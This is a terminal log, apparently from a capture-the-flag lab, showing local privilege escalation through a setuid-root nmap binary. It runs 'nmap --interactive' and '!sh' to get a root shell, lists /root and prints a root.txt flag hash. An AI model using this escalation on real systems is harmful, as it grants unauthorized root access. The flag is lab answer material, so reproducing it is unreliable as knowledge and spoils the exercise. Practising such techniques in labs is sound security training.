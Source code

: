 ````


$ ls -al /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap


$ /usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
pwd
/tmp

cd /root

ls -al
total 80
drwxr-xr-x 13 root root 4096 Feb 10 13:46 .
drwxr-xr-x 21 root root 4096 May 20  2012 ..
-rw-------  1 root root  373 Feb 10 13:46 .Xauthority
lrwxrwxrwx  1 root root    9 May 14  2012 .bash_history -> /dev/null
-rw-r--r--  1 root root 2227 Oct 20  2007 .bashrc
drwx------  3 root root 4096 May 20  2012 .config
drwx------  2 root root 4096 May 20  2012 .filezilla
drwxr-xr-x  5 root root 4096 Feb 10 13:46 .fluxbox
drwx------  2 root root 4096 May 20  2012 .gconf
drwx------  2 root root 4096 May 20  2012 .gconfd
drwxr-xr-x  2 root root 4096 May 20  2012 .gstreamer-0.10
drwx------  4 root root 4096 May 20  2012 .mozilla
-rw-r--r--  1 root root  141 Oct 20  2007 .profile
drwx------  5 root root 4096 May 20  2012 .purple
-rwx------  1 root root    4 May 20  2012 .rhosts
drwxr-xr-x  2 root root 4096 May 20  2012 .ssh
drwx------  2 root root 4096 Feb 10 13:46 .vnc
drwxr-xr-x  2 root root 4096 May 20  2012 Desktop
-rwx------  1 root root  401 May 20  2012 reset_logs.sh
-rw-------  1 root root   33 Mar 14  2017 root.txt
-rw-r--r--  1 root root  118 Feb 10 13:46 vnc.log



cat root.txt
92caac3be140ef409e45721348a4e9df

````
